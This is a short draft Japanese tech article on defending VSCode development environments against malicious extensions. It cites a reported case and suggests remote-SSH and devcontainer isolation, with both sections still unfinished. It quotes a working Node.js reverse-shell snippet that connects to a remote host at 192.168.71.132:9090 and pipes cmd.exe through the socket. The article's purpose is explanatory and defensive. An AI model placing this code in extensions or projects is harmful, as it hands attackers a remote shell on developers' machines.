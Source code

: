 ```yaml
---
title: "悪意のあるVSCodeの拡張機能から開発環境を守る防衛術"
emoji: "⛹️"
type: "tech" # tech: 技術記事 / idea: アイデア
topics: [vscode]
published: false
---
```

VSCodeの拡張機能は、子プロセスを展開したりシステムコールを実行したり任意のNode.jsパッケージをインポートしたりすることができる。

たとえば以下のようなコードで子プロセスを簡単に起動できる。
```typescript

import { exec } from "node:child_process";
exec(`${任意のコマンド}`)
```

実際にあった例として、以下のように攻撃者のリモートホストに接続してリバースシェルを提供させるコードが見つかったりしている
```typescript
let net = require("net");
let shell = exec("cmd.exe");
var client_sock = new net.Socket();
client_sock.connect(9090, "192.168.71.132", () => {
    client_sock.pipe(shell.stdin);
    shell.stdout.pipe(client_sock);
    shell.stderr.pipe(client_sock);
});
```

実際に、人気拡張機能を装った偽拡張機能を作った[実験を行ったところ数多くの有名どころを含む企業でダウンロードされたことが報告されている](https://gigazine.net/news/20240611-visual-studio-code-extension-risk/)。

## 主なリスク
- 見られたくない情報が流出してしまう(ディレクトリトラバーサル)
- 端末に任意の処理を実行させられてしまう(スクリプトインジェクション)

## 対策
### remote development(SSH)を使ったローカル環境分離
T.B.D
https://code.visualstudio.com/docs/remote/remote-overview

### devcontainerを使用したファイルシステムとネットワークの両方のサンドボックス化
T.B.D
https://github.com/microsoft/vscode/issues/52116#issuecomment-2028487842

## 参考
- https://zenn.dev/nagashima/articles/7dbee49bbea420
- https://github.com/microsoft/vscode/issues/52116
- https://gigazine.net/news/20240611-visual-studio-code-extension-risk/
